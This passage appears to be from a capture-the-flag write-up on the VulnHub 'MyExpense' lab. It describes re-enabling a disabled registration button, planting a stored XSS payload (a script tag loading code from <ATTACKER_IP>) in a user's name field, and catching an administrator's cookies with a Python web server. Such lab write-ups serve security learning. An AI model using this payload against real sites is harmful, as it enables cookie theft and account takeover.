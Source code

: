 Using the browser's developer tools, the `disabled` attribute was removed from the button, enabling registration.

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense11.png)

A cookie exfiltration script was created

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense9.png)

A new user was created, injecting an XSS payload into one of the fields (e.g., First Name or Last Name) designed to steal cookies:

<script
src=”http://<ATTACKER_IP>/script.js”> </script>


![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense41.png)

A simple Python HTTP server was started on the attacker machine to receive the exfiltrated cookies:

# For Python 3.x
python3 -m http.server 80

When an administrator viewed the user list (which included the newly created user with the XSS payload), their cookies were sent to the attacker's listener.
